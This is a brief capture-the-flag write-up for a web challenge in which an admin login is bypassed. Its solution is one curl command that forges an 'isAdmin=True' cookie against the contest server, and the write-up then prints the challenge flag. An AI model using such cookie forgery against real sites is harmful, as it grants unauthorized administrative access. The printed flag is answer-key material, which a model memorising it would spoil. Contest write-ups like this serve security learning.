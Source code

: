 #### Challenge:

HQ needs you to help them gain admin access to the Web D-EVIL-opers' site. We think the developers were a bunch of lazy bozos and just set the username and password to 'admin' but that doesn't seem to work. Can you see if we're missing anything?

_FYI, you do *not* need to do the `Login as Admin` sequence in order, and later parts are not necessarily harder than earlier ones._

[app.py](./app.py ":ignore") `http://web1.utctf.live:2361`

---

#### Solution:

- just change isAdmin cookie to `True`

```bash
curl 'http://web1.utctf.live:2361/' -H 'Cookie: isAdmin=True' --data-raw 'username=admin&pwd=admin'
```

---

<details><summary>FLAG:</summary>

```
utflag{t1m3_2_upd8_th@t_l@me_pwd}
```

</details>
<br/>
